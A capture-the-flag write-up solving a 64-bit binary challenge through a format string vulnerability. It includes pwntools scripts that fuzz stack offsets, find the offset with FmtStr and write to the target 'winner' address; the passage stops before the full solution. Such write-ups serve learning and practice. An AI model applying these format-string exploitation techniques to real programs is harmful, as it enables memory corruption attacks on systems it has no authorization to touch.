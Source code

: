 # Leet Test
> Write-up author: jon-brandy
## DESCRIPTION:
Are you 1337 enough?
## HINT:
- NONE
## STEPS:
1. First, unzip the `.zip` file given.
2. Now check the file type.

> RESULT - 64 BIT binary file, dynamically linked, not stripped.

![image](https://user-images.githubusercontent.com/70703371/210160534-d3b9375c-ea12-4897-9164-e86fa02cec9a.png)


3. Now check the binary's protection.

> RESULT - Partial RELRO, No canary found, No PIE

![image](https://user-images.githubusercontent.com/70703371/210160549-d94c6c8d-ede2-4b32-a57f-0375c4122480.png)


4. Let's open the binary in ghidra.

> RESULT - MAIN

![image](https://user-images.githubusercontent.com/70703371/210160613-fde04826-f2ec-4a81-a432-a08e4c1c27ed.png)


5. As we can see from the main function there's no bufferoverflow, but there's format strings vulnerability.

![image](https://user-images.githubusercontent.com/70703371/210160663-ce69190c-30df-465b-8f2c-03dbc6d6470e.png)


6. Notice the `local_13c` value multiplied by 0x1337c0de and compared to the winner which in the **.data** section.

> WINNER VALUE

![image](https://user-images.githubusercontent.com/70703371/210160678-49f0fc94-7c11-45f5-b274-74eda075b27e.png)


7. The value of variable `local_13c` is read in from `/dev/urandom`

![image](https://user-images.githubusercontent.com/70703371/210160703-2c5e0343-ea88-4132-81f4-b16c0bcd3c13.png)


8. What comes to my mind is we could overwrite the value of `local_13c` in the `/dev/urandom` with the value of `winner` divided by the `1337c0de`.

```
local_13c * 1337c0de / 1337c0de
```

9. But the problem here is, we will get a float value and float value will converted in various forms in hex.
10. So that's not the correct approach.
11. Anyway let's utilize the format string vulnerability to see if there's any clue.
12. I made a script to fuzz the format strings specifier.

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')

elf = context.binary = ELF('./leet_test', checksec=False)
sh = process(level='error')
for i in range(256): # random range
    try:
        sh.sendline('%{}$s'.format(i))
        sh.recvuntil('Hello,')
        result = sh.recvline() # to receive the response / result
        print(str(i) + ': ' + str(result))
    except EOFError:
        pass
```

13. First, run chmod to make the binary executeable, then run the script.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210160957-c1996945-770f-4327-ac66-36a941c93e98.png)


14. Hmm.. Got only 4 iterations, let's try to `$p`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210160967-a7e02ffa-35d8-4264-8a01-cc0c45443148.png)


15. Got a bunch of stack addresses. 
16. Hmm... Let's upgrade our fuzzy script to this:

```py
from pwn import *
import os

os.system('clear')

elf = context.binary = ELF('./leet_test', checksec=False)
context.log_level = 'error'
for i in range(256): # random range
    try:
        sh = process('./leet_test')
        sh.sendline('%{}$s'.format(i))
        sh.recvuntil('Hello,')
        result = sh.recvline() # to receive the response / result
        print(str(i) + ': ' + str(result))
        sh.close()
    except EOFError:
        pass
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/210161010-d65ca93d-fd65-475c-863e-5fd10e2a1ff0.png)


17. Notice that we're getting down to the environtment variables on my system.
18. Now let's check wheter we can put our string inside.

```py
from pwn import *
import os

os.system('clear')

elf = context.binary = ELF('./leet_test', checksec=False)
context.log_level = 'error'

sh = process('./leet_test')
sh.sendline('AAAAAAAA')

for i in range(256): # random range
    try:
        #sh = process('./leet_test')
        sh.sendline('%{}$x'.format(i))
        sh.recvuntil('Hello,')
        result = sh.recvline() # to receive the response / result
        print(str(i) + ': ' + str(result))
        #sh.close()
    except EOFError:
        pass
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/210161093-4cc695bc-7439-4df4-a332-592f5cf3d0ea.png)


19. We succeed here, but we want to see the `hex` format of A (0x41).
20. Let's add another 4 bytes.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210161105-bae24168-def5-4b74-8fd1-1e43735ff555.png)


21. Yep we got it, means we need to right 8 bytes before print any address. 
22. Now, we need to find the format strings offset. To do that i used `FmtStr`.

> THE SCRIPT

```py
from pwn import *
import os
from pwnlib.fmtstr import FmtStr, fmtstr_split, fmtstr_payload

os.system('clear')

exe = './leet_test'

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

sh = start()

def sendPayload(p):
    sh.sendline(p)
    sh.recvuntil('Hello,')
    return sh.recvline()

## GET THE FORMAT STRING OFFSET
formatString = FmtStr(execute_fmt = sendPayload)
info("Format String Offset: %d", formatString.offset)
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/210161461-96d31b85-1e5c-4dce-a67e-7d4f94171e2a.png)


![image](https://user-images.githubusercontent.com/70703371/210161501-f6a23d2b-a8fa-4261-af21-617ad8f71e0b.png)


23. Got it at 10th iterations.
24. Based from it we know that we need to write our value at offset of 10 to reference them.
25. Let's write the `winner` value to 0, to do that, get the offset of winner.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210161539-d2659383-7333-41af-a0d2-05c69e133818.png)


```py
# using FmtStr
formatString.write(0x404078, 0) # write 0 to winner
```

26. The issue now is overwriting the `urandom` value, because is not found somewhere in the memory to overwrite.
27. To find that, we can leak the stack to find the offset.
